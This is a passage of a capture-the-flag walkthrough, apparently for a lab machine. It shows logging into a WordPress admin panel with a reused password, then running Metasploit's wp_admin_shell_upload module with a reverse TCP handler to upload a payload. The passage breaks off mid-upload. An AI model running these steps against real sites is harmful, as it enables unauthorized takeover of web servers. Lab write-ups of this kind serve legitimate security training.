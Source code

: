 ~~~
===============================================================
2020/06/13 10:56:52 Finished
===============================================================
~~~

The scan reveals a folder named `wordpress`. Let's navigate to it (http://10.10.10.29/wordpress).

# Foothold

## WordPress

WordPress is a Content Management System (CMS) that can be used to quickly create websites and blogs. Since we have already acquired the password `P@s5w0rd!`, we can try to login to the WordPress site. We navigate to http://10.10.10.29/wordpress/wp-login.php and try to guess the username. Some common usernames are `admin` or `administrator`. The combination `admin:P@s5w0rd!` is successful and we gain administrative access to the site.

The administrative access can be leveraged through the msfmodule `exploit/unix/webapp/wp_admin_shell_upload`, to get a meterpreter shell on the system.

~~~
unknown@kali:/data$ msfconsole -q
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.10.10.29
rhost => 10.10.10.29
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
username => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password P@s5w0rd!
password => P@s5w0rd!
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.14.195:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
~~~